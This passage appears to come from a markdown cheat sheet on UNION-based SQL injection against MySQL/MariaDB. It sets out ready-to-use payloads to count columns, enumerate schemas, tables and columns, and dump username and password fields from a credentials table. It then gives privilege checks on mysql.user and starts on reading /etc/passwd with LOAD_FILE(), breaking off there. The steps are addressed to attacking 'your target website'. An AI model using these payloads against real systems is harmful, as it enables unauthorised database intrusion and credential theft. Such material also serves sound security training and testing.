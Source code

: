 #### Step2:
            use actual column number with union operation
            example: ' union select 1,2,3-- - 
#### Step3:
           check which column number show in your target website
#### Step4:
           use union base payload in perfect column number to exploit database

## Method for dumping data from database using Uninon SQL Injection

##### Schema,Schemata check

      mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

#### Step 1: Schema/Database check

     ' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -

#### Step 2: Tables check

      ' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -

Here , dev is database name which will replace to your target database name

#### Step3: Columns check

      ' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -

Here , credentials is table name whick will replace to your target table name

#### Step4: Dum Data from table:

      ' UNION select 1, username, password, 4 from dev.credentials-- -

Where username and password are column name , dev is database name , credentials is table name

## Read Data/Sensitive files using Union SQL Injection
     SELECT USER()
     SELECT CURRENT_USER()
     SELECT user from mysql.user

#### Step 1:Privilege Check

      SELECT super_priv FROM mysql.user
      ' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
      ' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
      ' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
#### Step 2:Load File
Now that we know we have enough privileges to read local system files, let us do that using the LOAD_FILE() function. The LOAD_FILE() function can be used in MariaDB / MySQL to read data from files. The function takes in just one argument, which is the file name. The following query is an example of how to read the /etc/passwd file:
